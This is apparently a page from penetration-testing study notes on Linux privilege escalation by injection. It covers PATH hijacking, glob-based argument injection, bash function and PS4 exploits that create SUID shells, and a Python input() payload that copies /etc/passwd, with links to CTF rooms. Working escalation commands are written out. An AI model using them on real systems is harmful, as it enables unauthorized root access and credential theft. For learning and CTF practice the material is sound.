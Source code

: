 # Injection

<div class="row row-cols-lg-2"><div>

If there is some code that can is executed as another user, for instance, a [scheduled task](tasks.md) or a [program with the SUID bit](perms.md#suidguid-bit), you may be able to modify the code behavior using injection.

➡️ You may need/want to create a [root bash](rootbash.md).
</div><div>

There are basic scenarios in which you can directly exploit the executable, but in other scenarios, you may have to exploit the environment itself. In short, it means you may:

* 🌸 edit the environment variables
* 🌿 edit the files used by the program
* 🎭 create a file named after the parameters of the command. For instance, if the code uses a glob-pattern, the pattern will be replaced with the matching files. So, you may inject parameters.
* 🐦 use a flaw in the script language
* ...
</div></div>

<hr class="sep-both">

## Path Environment variable 🌸

[![linprivesc](../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![commonlinuxprivesc](../../../_badges/thmp/commonlinuxprivesc.svg)](https://tryhackme.com/room/commonlinuxprivesc)
[![mustacchio](../../../_badges/thm-p/mustacchio.svg)](https://tryhackme.com/room/mustacchio)
[![bash_system_1](../../../_badges/rootme/bash_system_1.svg)](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-1)
[![bash_system_2](../../../_badges/rootme/bash_system_2.svg)](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-2)

<div class="row row-cols-lg-2"><div>

If you can run a script, you may try to see if the script uses your PATH to work. The easiest way to test that is to empty your PATH.

```shell!
$ bash -c 'export PATH=; <execute the script>'
"xxx" command not found ====> OK!
```

You can then try to replace the command binary by a [rootbash](rootbash.md). 

```
$ ls /tmp/rootbash # assuming you created your rootbash
$ ln -s /tmp/rootbash # replace the command "xxx"
$ bash -c 'export PATH=/tmp:$PATH; <execute the script>'
<your bash is called>
```

⚠️ If you are not able to edit the PATH, try to see if you can write files in a folder in the PATH that is before the original folder.
</div><div>

Unfortunately, this doesn't work when the command is invoked with some options, such as `tail -f /var/log/nginx/access.log`.

The trick is to create a script that launches our command. Refer to [Root Bash Script](rootbash.md).

```shell!
$ ln -s /tmp/root.sh /tmp/xxx # your command
$ bash -c 'export PATH=/tmp:$PATH; <execute the script>'
<your bash is called>
```
</div></div>

<hr class="sep-both">

## Parameters injection  🎭

[![linuxstrengthtraining](../../../_badges/thm/linuxstrengthtraining.svg)](https://tryhackme.com/room/linuxstrengthtraining)

<div class="row row-cols-lg-2"><div>

We can inject arguments when [glob-patterns](/operating-systems/linux/_knowledge/index.md#glob-patterns) are replaced, e.g., by creating file named after the command arguments.

To execute any command manipulating a filename starting with `-`, you need to use `--` such as `rm -- -la` to remove the file `-la`.
</div><div>

For instance, to inject `-la` into `ls *`:

```shell!
$ touch -- -la
$ ls
-la
$ ls * # * was replaced by -la
total 8
drwxr-xr-x 2 xxx xxx 4096 Apr 29 18:50 .
drwxr-xr-x 9 xxx xxx 4096 Apr 29 18:50 ..
-rw-r--r-- 1 xxx xxx    0 Apr 29 18:50 -la
```

</div></div>

<hr class="sep-both">

## Bash scripts failures 🐦

<div class="row row-cols-lg-2"><div>

**Bash versions <4.2-048**: it is possible to create functions named after a path, which allows us to execute a command instead. If the path is accessed by a script, then using `-p`, we can create a bash while inheriting the permissions of its creator.

```bash!
function /some/path { /bin/bash -p; }
export -f /some/path
```
</div><div>

**Bash <4.4**: if debug is enabled, we can inject code in the environment variable PS4 used by bash. If the script has the SUID bit, then using this, we could create a bash with the SUID bit too.

```shell!
$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/; chmod +xs /tmp/bash)' ./script
```
</div></div>

<hr class="sep-both">

## Special scenarios 📚

<div class="row row-cols-lg-2"><div>

#### Python input() function

[![python_input](../../../_badges/rootme/python_input.svg)](https://www.root-me.org/en/Challenges/App-Script/Python-input)

This command is used to prompt the user for input. The problem is that we can write python code <small>(e.g., 5+5)</small>.

```py
open('/tmp/passwd_dump', 'w').write(open('/etc/passwd', 'r').read())
```
</div><div>

...
</div></div>